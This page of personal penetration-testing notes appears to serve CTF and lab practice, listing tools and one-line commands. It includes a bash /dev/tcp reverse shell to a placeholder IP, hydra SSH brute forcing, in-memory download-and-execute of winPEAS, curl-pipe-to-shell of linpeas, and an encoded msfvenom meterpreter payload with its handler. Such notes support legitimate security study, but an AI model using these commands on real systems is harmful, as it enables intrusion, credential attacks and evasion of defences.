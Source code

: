 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

## General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

## Tmux
`tmux a` - attaches session
`tmux -S <name>` - attaches file session or creates one of that name

## Brute-Force
ffuf  
cme - SMB brute force tool  
hydra:  
ex: ```hydra -l usr -P pass.txt ssh://www.example.com```

## Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

## Wordlists
/usr/share/wordlists/  
* /seclists

## Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks

## Shells
reverse shell tips:  
```rlwrap nc -lnvpn``` (reverse shell with better fuctionality/arrowkeys)  

after get shell:  
```python3 -c 'import pty;pty.spawn("/bin/bash")'```
```ctrl - z```(to background the nc process)  
```stty raw -echo;fg```
```export TERM=xterm```   
* makes able to clear term
* better machine access

bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1

## Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


## Refrance links 
tbd

## Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

## Msfconsole
`sessions -i <session num>` - attach session   
`sessions -u <session num>` - upgrade to meterpreter

### Shells 
ex msfvenom reverse shell:  
`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe`
ex msfconsole listener:  
`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`

### Meterpreter
`channel -i <session>` - attaches
`upload <file>` - uploads file

